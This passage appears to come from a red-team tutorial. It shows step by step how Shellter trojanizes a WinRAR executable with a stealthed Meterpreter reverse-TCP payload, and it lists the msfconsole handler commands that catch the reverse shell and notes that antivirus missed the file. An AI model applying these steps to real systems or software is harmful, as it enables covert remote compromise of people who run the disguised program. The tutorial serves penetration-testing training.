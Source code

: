     ![Shellter operation mode selection](shellter-operation-mode-selection.png "Shellter operation mode selection")

1. You will now be prompted to specify the path to the PE target, in this case, we will specify the path of the WinRAR executable we downloaded as shown in the screenshot below.

    ![Shellter PE target filepath prompt](shellter-pe-target-filepath-prompt.png "Shellter PE target filepath prompt")

1. After specifying the target PE path, Shellter will begin the tracing process on the target PE, after which, you will be prompted to specify whether you want to enable stealth mode, in this case, we will be enabling stealth mode. This can be done by specifying the “Y” option as highlighted in the following screenshot.

    ![Shellter enable stealth mode prompt](shellter-enable-stealth-mode-prompt.png "Shellter enable stealth mode prompt")

1. You will now be prompted with the payload selection menu, in this case, we will be utilizing the listed payloads, this can be selected by specifying the “L” option as shown in the screenshot below.

    ![Shellter payload selection menu](shellter-payload-selection-menu.png "Shellter payload selection menu")

1. You will now be prompted to specify the payload of choice by index, in this case we will be using the “Meterpreter_Reverse_TCP” stager method. This payload can be selected by selecting option “1” as highlighted in the following screenshot.

    ![Shellter payload selection menu - select payload by index](shellter-payload-selection-menu-select-payload-by-index.png "Shellter payload selection menu - select payload by index")

1. You will now be prompted to specify the Meterpreter payload options, in this case you will need to set the LHOST and LPORT options as highlighted in the screenshot below.

    ![Shellter payload LHOST and LPORT prompt](shellter-payload-lhost-lport-prompt.png "Shellter payload LHOST and LPORT prompt")

1. After specifying the Meterpreter payload options, Shellter will begin the process of injecting the payload into the target PE. Afterwards, Shellter will confirm the injection process as shown in the following screenshot.

    ![Shellter payload injection confirmation](shellter-payload-injection-confirmation.png "Shellter payload injection confirmation")

1. We will now need to setup the listener with Metasploit to receive a reverse tcp connection when the target executable is executed. This can be done by running the following commands in the Metasploit-framework:

        msfconsole
        use multi/handler
        set payload windows/meterpreter/reverse_tcp
        set LHOST <IP>
        set LPORT <PORT>
        run

1. After setting up the Metasploit listener, you will now need to transfer the target PE we injected the payload into the target system. Once the target PE is executed, we should receive a meterpreter session on our listener as shown in the screenshot below.

    ![Metasploit meterpreter session](metasploit-meterpreter-session.png "Metasploit meterpreter session")

    The execution of the target PE on the target system is not detected by the AV and as a result, we were able to obtain a meterpreter session on the target system.